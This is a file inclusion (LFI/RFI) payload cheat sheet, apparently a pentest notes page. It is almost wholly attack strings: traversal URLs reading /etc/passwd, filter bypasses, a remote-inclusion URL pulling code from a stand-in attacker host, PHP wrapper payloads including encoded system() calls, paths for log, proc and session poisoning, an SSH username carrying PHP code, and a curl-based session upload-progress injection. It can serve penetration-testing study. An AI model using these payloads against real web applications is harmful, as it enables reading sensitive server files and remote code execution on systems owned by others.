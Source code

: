 ## File Inclsusion (LFI/RFI)

![](https://miro.medium.com/v2/resize:fit:644/1*UPMlwBWgKMSUzSvY5mt5uw.png)

**What is File Inclusion  Attack?**

A file inclusion vulnerability is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time.

**General Payloads**

```
http://vulnerable-web.com/index.php?page=../../../etc/passwd (Read /etc/passwd)
http://vulnerable-web.com/index.php?page=/etc/passwd (Read /etc/passwd)
http://example.com/index.php?page=/etc/passwd%00 (Read /etc/passwd) [Fixed in PHP 5.4 and later versions]
http://example.com/index.php?page=..././..././..././..././..././..././..././..././etc/passwd (Bypass ../ Filters)
http://example.com/index.php?page=../../../etc/passwd (3 dots in Linux)
http://example.com/index.php?page=http://attacker.net/eval.php.txt (Remote File Inclusion)
```

# PHP wrappers & protocols

**php://filter**

```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
```

**data://**

```
http://example.com/index.php?page=data://text/plain;base64,%50%44%39%77%61%48%41%67%63%33%6c%7a%64%47%56%74%4b%43%64%73%63%79%63%70%4f%79%41%2f%50%67%3d%3d (Useful For WAF bypass)
http://example.com/index.php?page=data:text/plain,%3c%3f%70%68%70%20%70%68%70%69%6e%66%6f%28%29%3b%20%3f%3e (Will print php info)
```

**expect://**

```
http://example.com/index.php?page=expect://ls [For fopen Function]
```

**input://**

```
curl -X POST -d "<?php system('ls'); ?>" http://example.com/index.php?page=input://
```

**php://fd/**

```
http://example.com/index.php?page=php://fd/[0-9] (Opened Files In Current Process)
```

**zip://**

```
http://example.com/index.php?page=zip://path-to-zip-file/%23shell.php
```

# Web Service Software logs Poisoning

**Apache2**

```
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/httpd/error_log
```

**Nginx**

```
/var/log/nginx/access.log
/var/log/nginx/error.log
```

# Process Poisoning

```
/proc/self/environ
/proc/self/status
/proc/[id]/fd/[id]
/proc/self/[id]
```

# LFI to RCE via uploaded file

```
http://example.com/index.php?page=./uploads/shell.png
```

# SSH log Poisoning

```
$ ssh '<?php phpinfo(); ?>@example.com'
http://example.com/index.php?page=/var/log/auth.log
```

# PHP Session Poisoning

```
 /var/lib/php/sess_[PHPSESSID]
/tmp/sess_[PHPSESSID]
/var/lib/php/sessions/sess_[PHPSESSID]
```

# PHP session.upload_progress 

```
curl --cookie "PHPSESSID=attacker" -F "PHP_SESSION_UPLOAD_PROGRESS=<?php phpinfo(); ?>" -F "file=@test.png" http://example.com/
#then view session path like /var/lib/php/sess_attacker
```

# Best walkthrough ever
[Click here](https://www.facebook.com/100035201946522/posts/pfbid02zghX3gn5cgjqNtcBQRdzzSoVf5kECpjCqg19t4JRmxXqgmbpV6f551cwCyFMgUq7l/?app=fbl)

